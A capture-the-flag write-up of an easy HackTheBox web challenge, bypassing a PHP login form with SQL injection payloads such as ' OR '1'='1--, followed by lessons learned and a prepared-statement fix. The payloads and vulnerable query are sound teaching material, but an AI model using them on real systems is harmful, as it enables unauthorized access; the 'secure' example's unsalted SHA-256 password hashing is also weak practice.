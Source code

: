 # SQL Injection Basic - Login Bypass

## Challenge Information
- **Platform**: HackTheBox
- **Event**: HackTheBoo 2024
- **Difficulty**: Easy
- **Category**: Web Security
- **Points**: 100

## Description
This challenge presents a web application with a login form vulnerable to SQL injection. The goal is to bypass authentication and gain access as administrator.

## Reconnaissance

### Initial Analysis
When accessing the application, we find a standard login form with username and password fields.

```
URL: http://target.com/login.php
Fields: username, password
```

### Basic Tests
I tried common credentials without success:
- admin:admin
- admin:password
- root:root

## Vulnerability Identification

### SQL Injection Detection
I tested basic payloads in the username field:

```sql
' OR '1'='1
' OR 1=1--
admin'--
```

With the payload `' OR '1'='1--` in the username field, I managed to bypass authentication.

### Query Analysis
The vulnerable SQL query is probably:

```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```

By injecting `' OR '1'='1--`, the query becomes:

```sql
SELECT * FROM users WHERE username='' OR '1'='1'-- AND password=''
```

## Exploitation

### Successful Payload
```
Username: ' OR '1'='1--
Password: [anything]
```

### Result
Successful access as administrator, obtaining the flag: `HTB{5ql_1nj3c710n_15_345y}`

## Lessons Learned

1. **Always sanitize input**: The application did not properly validate or escape input data.

2. **Use prepared statements**: Parameterized queries prevent this type of attack.

3. **Principle of least privilege**: The database should not allow unauthorized operations.

## Mitigation

### Vulnerable Code
```php
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
```

### Secure Code
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, hash('sha256', $password)]);
```

## References
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger SQL Injection](https://portswigger.net/web-security/sql-injection)

---
*Writeup completed on 2024-12-15*
